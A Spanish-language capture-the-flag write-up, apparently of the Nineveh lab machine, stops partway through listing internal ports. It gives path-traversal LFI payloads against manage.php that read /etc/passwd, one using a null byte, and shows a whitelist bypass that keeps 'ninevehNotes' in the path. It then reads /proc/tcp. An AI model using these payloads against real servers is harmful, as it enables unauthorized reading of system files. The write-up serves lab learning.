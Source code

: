 ```python
```

### Analizamos el panel de administracion del puerto 80 {-}

Aqui vemos un link llamado Notes, pinchamos y se ve una nota. 
Nos llama la atencion la url 
```bash
 10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt 
```

Intentamos ver si es vulnerable a un **LFI**

```bash
10.10.10.43/department/manage.php?notes=files/../../../../../../etc/passwd
10.10.10.43/department/manage.php?notes=files/../../../../../../etc/passwd%00
```

Aqui nos pone la pagina un mensaje 
```bash
 No notes selected 
```
. Probamos mas cosas.

```bash
10.10.10.43/department/manage.php?notes=files/ninevehNotes
10.10.10.43/department/manage.php?notes=files/ninevehNote
```

La differentes respuestas nos hacen pensar que hay un systema de White words list que functionna unicamente si tenemos la palabra
**ninevehNotes**

```bash
10.10.10.43/department/manage.php?notes=files/ninevehNotes/../../../../../../etc/passwd
10.10.10.43/department/manage.php?notes=ninevehNotes/../../../../../../etc/passwd
10.10.10.43/department/manage.php?notes=/ninevehNotes/../etc/passwd
```

Ya podemos ver el contenido del 
```bash
 /etc/passwd 
```
 y vemos un usuario **amrois**

Miramos mas contenidos interresantes

### Checkeamos los puertos internos de la maquina {-}

Siempre es buena idea mirrar los puertos internos que estan abiertos. Desde fuera, connocemos los puertos 80 y 443.

1. Approvechamos del LFI para ver el fichero proc tcp

    ```bash
    10.10.10.43/department/manage.php?notes=files/ninevehNotes/../proc/tcp
    ```

1. copiamos esto en un fichero llamado data
1. recuperamos la columna que contiene los puertos
